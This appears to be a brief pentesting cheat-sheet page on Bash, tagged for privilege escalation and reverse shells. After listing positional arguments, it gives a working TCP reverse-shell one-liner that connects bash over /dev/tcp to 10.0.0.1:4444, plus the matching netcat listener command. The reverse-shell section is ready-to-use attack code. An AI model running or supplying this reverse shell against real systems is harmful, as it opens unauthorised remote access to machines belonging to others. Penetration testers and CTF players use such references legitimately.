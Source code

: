 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, ReverseShell, SUID]
alts: [BashScript]
website:
render_with_liquid: false
---
```


## Positional arguments of the script

```sh
$0
$1
$2
...

```

<br />

## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```
